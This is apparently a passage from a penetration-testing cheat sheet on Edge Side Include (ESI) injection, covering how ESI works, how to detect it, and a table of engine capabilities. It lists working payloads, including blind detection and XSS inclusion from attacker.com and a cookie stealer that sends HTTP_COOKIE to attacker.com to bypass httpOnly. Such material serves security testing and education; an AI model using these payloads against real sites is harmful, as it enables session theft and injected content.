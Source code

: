 ```javascript
<!--#set var="name" value="Rich" -->

```

## Edge Side Inclusion

There is a problem **caching information or dynamic applications** as part of the content may have **varied** for the next time the content is retrieved. This is what **ESI** is used form, to indicate using ESI tags the **dynamic content that needs to be generated** before sending the cache version.\
if an **attacker** is able to **inject an ESI tag** inside the cache content, then, he could be able to i**nject arbitrary content** on the document before it's sent to the users.

### ESI Detection

The following **header** in a response from the server means that the server is using ESI:

```
Surrogate-Control: content="ESI/1.0"
```

If you can't find this header, the server **might be using ESI anyways**.\
A **blind exploitation approach can also be used** as a request should arrive to the attackers server:

```javascript
// Basic detection
hell<!--esi-->o 
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

### ESI exploitation

[GoSecure created](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) a table to understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported:

* **Includes**: Supports the `<esi:includes>` directive
* **Vars**: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
* **Cookie**: Document cookies are accessible to the ESI engine
* **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
* **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

